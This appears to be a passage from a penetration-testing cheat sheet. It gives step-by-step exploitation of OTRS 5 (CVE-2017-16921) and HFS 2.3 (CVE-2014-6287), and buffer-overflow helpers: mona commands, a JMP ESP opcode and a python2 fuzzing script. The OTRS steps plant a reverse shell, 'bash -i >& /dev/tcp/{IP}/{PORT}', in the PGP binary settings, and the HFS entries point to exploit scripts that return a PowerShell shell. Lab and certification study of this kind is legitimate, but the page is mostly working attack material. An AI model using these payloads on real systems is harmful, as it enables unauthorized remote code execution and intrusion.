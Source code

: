 -----

#### Otrs 5

* CVE-2017-16921
  - Go to `/otrs/index.pl?Action=AdminSysConfig;Subaction=Edit;SysConfigSubGroup=Crypt%3A%3APGP;SysConfigGroup=Framework`
  - Set PGP enable
  - Set PGP::Bin `/bin/bash`
  - Set PGP::Options `-c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1'`
  - Save Change
  - Go to `/index.pl?Action=AdminPGP`
  - https://www.exploit-db.com/exploits/43853

-----

#### HFS 2.3

* CVE-2014-6287
  * `python2 {IP} {PORT}`
  * Set lhost and lport
  * https://www.exploit-db.com/exploits/39161
* [49584.py](https://www.exploit-db.com/exploits/49584)
  * Change IP information in exploit,and you will get reverse shell of powershell.
  * https://www.exploit-db.com/exploits/49584 

-----

### Buffer Overflow

#### Commands

* Mona
  * Find Modules
    * `!mona modules`
  * Find Strings
    * `!mona find -s "\xff\xe4" -m "{modules}"`
* nasm_shell.rb
  * `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
* JMP ESP
  * `\xff\xe4`

#### Fuzzing

[fuzzing.py]()

```python=                
#!/usr/bin/python2
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
        try:
                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                print("Fuzzing username with %s bytes") % len(buffer)
                s.connect(('{IP}',{PORT}))
                s.recv(1024)
                s.send(buffer)
                sleep(1)
                s.close()
                buffer = buffer + "A"*100

        except:
                print "Error connecting to server"
```